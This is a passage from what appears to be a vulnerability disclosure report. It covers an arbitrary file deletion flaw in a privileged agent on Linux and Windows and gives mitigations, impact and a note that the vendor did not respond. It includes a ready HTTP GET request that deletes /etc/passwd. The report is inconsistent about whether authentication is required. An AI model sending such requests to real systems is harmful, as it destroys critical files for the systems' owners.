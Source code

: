 ```]

#pagebreak()
== Authenticated Arbitrary File Deletion (Linux/Windows) <authenticated-arbitrary-filedelete>
=== Summary <summary>
The Application is vulnerable to an Unauthenticated Arbitrary File Deletion. This affects the Agent installed on Linux and Windows alike.
As the application runs per default with the highest privileges (root/NT\_AUTHORITY SYSTEM), attackers are able to delete critical files like `/etc/shadow`.

=== CWE <cwe>
- #link(
  "https://cwe.mitre.org/data/definitions/22.html"
)[CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')]
This seems to be the best shot for a fitting CWE. However, it is not a "Improper Limitation of a Pathname" through path traversal, but trough missing limitation of a valid path name. So there are no limitations at all.

=== Steps to reproduce <steps-to-reproduce>
The vulnerability can be triggered with the following GET request:

#sourcecode(highlighted: (1,3))[
```http
GET /agent?filename=%2Fetc%2Fpasswd&r=logs&request=del_usrv_log HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=1294797077750987387
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
...
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
...
```]

Taking a look at the server shows, that the file was deleted:

#figure([#image("arbitraryFileDeletionProve.png")], caption: [
  Proof that the file is actually deleted after the request was send
])

This works for Linux and Windows alike.

=== Mitigations <mitigations>

- Validating that the input is just a filename and not a path
- Validating that the input contains alphanumeric characters that match the naming convention of the logfiles created by the agent
- Another possibility is maintaining a list with logfiles and allow only those names

=== Impact <impact>

An authenticated attacker can delete almost any file on the filesystem with privileges of `root` or `NT_AUTHORITY SYSTEM`. This includes files like `/etc/passwd`.

=== Already reported <already-reported>

Now, it was tried to contact the vendor for about a year now. But no response was received.

=== CVE Requested <cve-requested>

No, this is the first request of CVEs for this bugs.

```